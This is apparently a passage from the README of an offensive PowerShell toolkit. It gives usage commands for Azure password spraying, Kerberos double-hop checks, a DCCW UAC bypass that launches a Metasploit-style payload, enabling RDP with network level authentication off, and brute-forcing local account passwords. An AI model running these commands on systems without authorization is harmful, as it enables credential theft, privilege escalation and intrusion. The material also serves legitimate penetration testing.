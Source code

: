 ```powershell
# This Example tests the passwords defined against the list of usernames defined with a 60 second wait before the next sign in attempt. This performs authentication attempts in a Round Robin fashion for the defined usernames

$UserNames = "rob@domain.com","john@domain.com","dixie@domain.com","chris@domain.com"
$UserNames | Invoke-AzurePasswordSpray -Passwd "Password123!" -RoundRobin
# This Example tests the passwords defined against the list of usernames defined in a Round Robin fashion
```

- Test-KerberosDoubleHop is used to discover Computers, Users, and/or Administrator accounts who are vulberable to a Kerberos Double Hop
```powershell
Test-KerberosDoubleHop -All
# This example checks for and displays Computers, Users, and Admin AD Objects vulnerable to a Kerberos Double Hop on the domain controller you are logged into

Test-KerberosDoubleHop -Server DC01.domain.com -UserResults
# This example uses WinRM to display User AD Objects vulnerable to a Kerberos Double Hop on the remote domain controller DC01.domain.com

Test-KerberosDoubleHop -Server DC01.domain.com -UseSSL -AdminResults
# This example uses WinRM over HTTPS to display Admin AD Objects vulnerable to a Kerberos Double Hop on the remote domain controller DC01.domain.com

Test-KerberosDoubleHop -ComputerResults -AdminResults
# This example checks for and displays Computer and Admin AD Objects vulnerable to a Kerberos Double Hop on the domain controller you are logged into
```

- Invoke-DccwUACBypass is used to bypass UAC without a password if you are a member of an administrator group. This exploits DCCW's functionality to achieve this task. If the settings do not allow for this to work this cmdlet will stop execution. If the settings do allow this to work it will tell you what to do to defend against this.
```powershell
Invoke-DccwUACBypass -Program "cmd /c start powershell"
# This example exploits the DCCW UAC bypass method to open PowerShell with administrative privileges

Invoke-DccwUACBypass -Program "cmd /c start mfs.exe"
# This example exploits the DCCW UAC bypass method to execute the payload msf.exe with administrative privileges
```

- Enable-RDP is used to enable RDP on a local machine, disable network level authentication, and enable the firewall rule for port 3389.
```powershell
Enable-RDP
```

- Test-BruteLocalUserCredential is used to brute force the password of a local account on a local machine
```powershell
Test-BruteLocalUserCredential -Username Administrator -Passwd 'Password123!','Passw0rd1!'
# This example tests the two defined passwords against the Administrator user account

Test-BruteLocalUserCredential -Username Administrator -Passwd (Get-Content -Path C:\Temp\passlist.txt)
# This example tests the passwords inside the C:\Temp\passlist.txt file against the Administrator user account

$Users = (Get-LocalUser).Name
ForEach $U in $Users) {Test-BruteLocalUserCredential -Username $U -Passwd (Get-Content -Path C:\Temp\passlist.txt)}
# This example tests a password list against all local user accounts
```